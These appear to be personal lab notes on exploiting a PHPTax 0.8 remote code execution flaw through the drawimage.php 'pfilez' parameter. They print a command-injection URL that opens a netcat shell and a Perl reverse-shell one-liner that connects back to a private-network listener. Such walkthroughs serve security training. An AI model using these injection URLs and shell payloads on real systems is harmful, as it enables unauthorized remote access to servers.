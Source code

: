 <img src="../img/Pasted image 20240626121541.png" alt="Example Image" width="1080"/>

found exploit for phptax 0.8 <= Remote Code Execution Vulnerability
https://www.exploit-db.com/exploits/21665 `PHPTAX`

this is a exploitable URL

```txt
http://localhost/phptax/drawimage.php?pfilez=xxx;%20nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make
```

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet chosen Perl cmd

let change ip and port for reverse shell

```txt
perl -e 'use Socket;$i="192.168.0.141";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

https://meyerweb.com/eric/tools/dencoder/

```
http://localhost/phptax/drawimage.php?pfilez=xxx;%20nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make

# exploitable url RCE , OUR_CODE is parameter where we want to paste rev_shell
http://192.168.0.170:8080/phptax/drawimage.php?pfilez=xxx;OUR_CODE;&pdf=make

#reverse shell
perl -e 'use Socket;$i="192.168.0.141";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# URL encoded , add this in our code
```